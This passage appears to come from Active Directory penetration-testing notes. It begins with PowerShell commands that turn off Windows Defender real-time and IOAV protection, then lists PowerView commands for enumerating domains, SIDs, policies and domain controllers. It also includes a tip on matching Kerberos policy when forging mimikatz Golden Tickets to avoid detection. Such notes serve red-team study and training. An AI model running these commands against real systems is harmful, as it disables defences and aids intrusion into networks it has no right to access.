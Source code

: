 ## Bypass Real-Time-monitoring
```powershell
Powershell Set-MpPreference -DisableRealtimeMonitoring $true
Powershell Set-MpPreference -DisableIOAVProtection $true
```

# Basic Enumeration

Since we bypassed AMSI and Real-Time protection, we can start with Domain Enumeration and map various entities, trusts, relationships and privileges for the target domain.

## PowerView Enumeration

### Get current domain
```powershell
Get-NetDomain
```

### Get object of another domain
```powershell
Get-NetDomain -Domain <domain-name>
```

### Get domain SID for the current domain
```powershell
Get-DomainSID
```

### Get domain policy for the current domain
```powershell
Get-DomainPolicy
(Get-DomainPolicy)."system access"
```

### Get domain policy for another domain
```powershell
(Get-DomainPolicy -domain <domain-name>)."system access"
(Get-DomainPolicy -domain <domain-name>)."kerberos policy"
(Get-DomainPolicy -domain <domain-name>)."Privilege Rights"
# OR
(Get-DomainPolicy)."KerberosPolicy" #Kerberos tickets info(MaxServiceAge)
(Get-DomainPolicy)."SystemAccess" #Password policy
(Get-DomainPolicy).PrivilegeRights #Check your privileges
```
> Keep note of the kerberos policy as it will be required while making Golden Tickets using mimikats will require the same offsets else it will get blocked by the defenders
{: .prompt-danger }
### Get domain controllers for the current domain
```powershell
Get-NetDomainController
```
